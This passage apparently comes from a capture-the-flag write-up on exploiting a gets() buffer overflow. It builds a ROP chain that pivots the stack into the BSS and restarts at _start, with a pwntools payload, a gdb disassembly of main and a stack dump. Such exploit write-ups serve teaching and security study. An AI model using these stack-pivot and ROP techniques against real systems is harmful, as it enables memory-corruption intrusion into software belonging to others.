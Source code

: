 The above defines our new stack at the end of the BSS page.  But not at the very end.  Since we're smashing the stack, we need a bit of headroom just in case (when you're going _down stack_, you're actually going _up_ in memory).

Our ROP chain simply calls `gets` with the location of our new stack, then pivots to that stack with `pop rsp`.

```python
# let's start over with a new stack
payload  = b''
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(binary.sym._start)

p.sendline(payload)

if args.REMOTE: time.sleep(0.1) # give some time to start up :-)
```

At this point in the execution (first) `gets` is waiting for input.  The above will populate our new stack so that the three `pop`s from the `pop rsp` gadget have something to `pop` and then return to `_start`, to well, _start_ over; however this time, we know the location of the stack, since we defined it.

> The last line is something I had to add when running remotely, basically, a bit of restart time.

This is a good time to set a breakpoint at the end of `main` to better understand how our final payload needs to be crafted:

```
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000401136 <+0>:	endbr64
   0x000000000040113a <+4>:	push   rbp
   0x000000000040113b <+5>:	mov    rbp,rsp
   0x000000000040113e <+8>:	add    rsp,0xffffffffffffff80
   0x0000000000401142 <+12>:	lea    rax,[rbp-0x80]
   0x0000000000401146 <+16>:	mov    rdi,rax
   0x0000000000401149 <+19>:	mov    eax,0x0
   0x000000000040114e <+24>:	call   0x401040 <gets@plt>
   0x0000000000401153 <+29>:	mov    eax,0x0
   0x0000000000401158 <+34>:	leave
   0x0000000000401159 <+35>:	ret
End of assembler dump.
gef➤  b *main+34
Breakpoint 1 at 0x401158
```

Now dump top the stack at the break:

```
0x404d50:	0x00007fda4f1e5980	0x00007fda4f1e6790
0x404d60:	0x0000000000000000	0x0000000000000000
0x404d70:	0x0000000000000000	0x00007fda4f080c2e
0x404d80:	0x0000000000000000	0x0000000000401160
0x404d90:	0x0000000000404e30	0x0000000000401050
0x404da0:	0x0000000000000000	0x0000000000401153
0x404db0:	0x4141414141414141	0x4141414141414141
0x404dc0:	0x4141414141414141	0x4141414141414141
0x404dd0:	0x4141414141414141	0x4141414141414141
0x404de0:	0x4141414141414141	0x4141414141414141
0x404df0:	0x4141414141414141	0x4141414141414141
0x404e00:	0x4141414141414141	0x4141414141414141
0x404e10:	0x4141414141414141	0x4141414141414141
0x404e20:	0x4141414141414141	0x4141414141414141
0x404e30:	0x4141414141414141	0x00000000004011ba
0x404e40:	0x00000000ffe69a90	0x0000000000404d8d
```